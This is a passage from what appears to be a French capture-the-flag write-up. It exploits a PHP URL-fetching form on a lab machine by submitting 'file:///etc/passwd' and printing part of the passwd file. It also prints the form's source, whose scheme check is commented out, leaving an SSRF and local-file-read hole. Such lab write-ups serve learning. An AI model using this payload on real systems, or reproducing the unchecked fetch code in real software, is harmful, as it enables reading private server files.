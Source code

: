 L'autre point nous mène vers un script PHP (accessible classiquement via HTTP 1.1). C'est un formulaire qui permet de taper une URL qui est aussitôt crawlée et dont la réponse est retournée).  

Du moins il y a quelques restrictions puisque les accès sortants ne semblent pas autorisés sur cette machine.  

Dans un premier temps il faut pouvoir déterminer quel type de client est utilisé. Est-ce PHP avec un simple *readfile* ou s'agit-il d'une inclusion ? Est-ce la librairie *cURL* qui est utilisée ? Vu qu'il s'agit d'un script PHP ce sont les plus probables.  

Si je soumet */etc/passwd* rien n'est retourné. En revanche en demandant *file:///etc/passwd* ça fonctionne :  

```plain
--- snip ---
snape:x:1000:1000:Snape,,,:/home/snape:/bin/bash
ron:x:1001:1001::/home/ron:/bin/sh
hermoine:x:1002:1002::/home/hermoine:/bin/bash
--- snip ---
```

C'est là que le path présent dans la configuration nous est utile, tachons d'accéder au script PHP (*file:///var/www/html/internalResourceFeTcher.php*)   

```php
<?php

if (!isset($_GET['url']))
{
	exit;
}
$url=$_GET['url'];

if (empty($url))
{
	exit;
}

$scheme = parse_url($url, PHP_URL_SCHEME);
#if (!preg_match('/^https?$/i', $scheme))
#{
#	echo "Don't Try to be smart. We have implemented SSRF protections.";
#	exit;
#}

$ch = curl_init();
curl_setopt($ch, CURLOPT_URL, $url);
curl_setopt($ch, CURLOPT_CONNECTTIMEOUT, 0);
curl_setopt($ch, CURLOPT_TIMEOUT, 10);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);

$exec = curl_exec($ch);
echo $exec;
?>
```
